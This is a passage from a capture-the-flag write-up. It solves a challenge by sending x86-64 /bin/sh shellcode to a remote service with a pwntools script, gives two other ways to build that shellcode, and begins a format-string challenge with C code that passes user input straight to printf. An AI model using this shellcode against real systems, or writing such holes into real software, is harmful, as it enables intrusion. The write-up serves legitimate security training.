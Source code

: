 ```c
	print_flag();

}
```

This is literally just a program that would take your inputted bytes, place them into memory and then execute it. There are no checks, no traps, nothing that can really be seen here. So let's just try sending shellcode via our input:
```py
#!usr/bin/env python
from pwn import *

r = remote("34.87.186.254",21238)

shellcode = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

r.recvuntil(": ")
r.sendline(shellcode)
r.interactive()
```

Yes, I just used some old shellcode I had lying around. There's also the "cleaner" way of doing this by making use of pwntools:
```py
shellcode = asm(pwnlib.shellcraft.amd64.linux.sh())
```

Or if you wanted to flex:
```py
shellcode = asm("""
mov rax, 0x3b
mov rbx, 0x68732f6e69622f
push rbx
mov rdi, rsp
mov rsi, 0
mov rdx, 0
syscall
""")
```

Either way, we input our shellcode and we pop a shell, after which we can simply `cat flag.txt` and bring it home.

![](https://i.ibb.co/qWwQN9X/completeme1.png)


Flag: `greyhats{y0u_4r3_4n_4553mb1y_pr0}`

# fsa 🍼 | 19 solves 460 pts
Good ol' format string. Sourcecode `fma.c` is provided for this challenge and this is what we see inside:
```c
#include <stdio.h>

char flag[] = "greyhats{REDACTED}";

void vulnerable_function() {
    char buffer[100];
    printf("Flag is at %p\nEnter your input: \n", &flag);
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);
    printf("\n");
}

int main() {
```